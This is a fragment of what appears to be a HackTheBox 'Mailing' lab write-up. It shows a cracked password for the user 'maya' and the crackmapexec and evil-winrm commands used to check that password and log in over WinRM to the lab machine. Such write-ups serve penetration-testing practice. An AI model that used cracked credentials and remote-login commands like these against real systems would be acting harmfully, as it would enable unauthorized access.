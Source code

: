 ![](screenshots/hashcat_maya.png)

Recovered password:  
`maya : m4y4ngs4ri`

Validate & login:

```bash
crackmapexec winrm 10.10.11.14 -u 'maya' -p 'm4y4ngs4ri'
evil-winrm -i 10.10.11.14 -u 'maya' -p 'm4y4ngs4ri'
```

![](screenshots/crackmapexec_maya.png)
![](GitHubv2/HackTheBox/EASY/Mailing/screenshots/user_flag.png)
